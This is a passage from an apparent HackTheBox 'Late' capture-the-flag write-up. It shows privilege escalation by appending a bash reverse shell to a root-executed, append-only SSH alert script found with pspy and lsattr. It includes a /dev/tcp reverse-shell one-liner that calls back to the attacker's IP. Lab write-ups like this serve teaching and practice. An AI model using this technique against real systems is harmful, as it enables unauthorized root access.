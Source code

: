 ```bash
        User:        $PAM_USER
        User IP Host: $PAM_RHOST
        Service:     $PAM_SERVICE
        TTY:         $PAM_TTY
        Date:        `date`
        Server:      `uname -a`
"

if [ ${PAM_TYPE} = "open_session" ]; then
        echo "Subject:${SUBJECT} ${BODY}" | /usr/sbin/sendmail ${RECIPIENT}
fi
```

There is an interesting `ssh-alert.sh` file that is available but is it executed by root? Lets use `pspy` to check.

```bash
- Local Machine -
┌──(root㉿shiro)-[/home/shiro/HackTheBox/Late]
└─# wget https://github.com/DominicBreuker/pspy/releases/download/v1.2.0/pspy64
...

- Netcat Shell -
svc_acc@late:~$ wget http://10.10.14.4/pspy64
...
svc_acc@late:~$ chmod +x pspy64
svc_acc@late:~$ ./pspy64
...
< ssh into svc_acc again using another terminal to execute the ssh-alert script >
...
2022/08/20 08:08:22 CMD: UID=0    PID=1922   | /bin/bash /usr/local/sbin/ssh-alert.sh 
```

The script is indeed ran by `UID=0`. 

```bash
svc_acc@late:~$ lsattr /usr/local/sbin/ssh-alert.sh 
-----a--------e--- /usr/local/sbin/ssh-alert.sh
```

>   `lsattr` shows the attribute of the file. The `a` in the attributes indicate that we can only add things to the end of the file.

Lets add a reverse shell bash script to the end of the file and execute `ssh-alert.sh`.

```bash
svc_acc@late:~$ echo 'bash -c "exec bash -i &>/dev/tcp/10.10.14.4/9999 <&1"' >> /usr/local/sbin/ssh-alert.sh 
svc_acc@late:~$ cat /usr/local/sbin/ssh-alert.sh 
#!/bin/bash

RECIPIENT="root@late.htb"
SUBJECT="Email from Server Login: SSH Alert"

BODY="
A SSH login was detected.

        User:        $PAM_USER
        User IP Host: $PAM_RHOST
        Service:     $PAM_SERVICE
        TTY:         $PAM_TTY
        Date:        `date`
        Server:      `uname -a`
"

if [ ${PAM_TYPE} = "open_session" ]; then
        echo "Subject:${SUBJECT} ${BODY}" | /usr/sbin/sendmail ${RECIPIENT}
```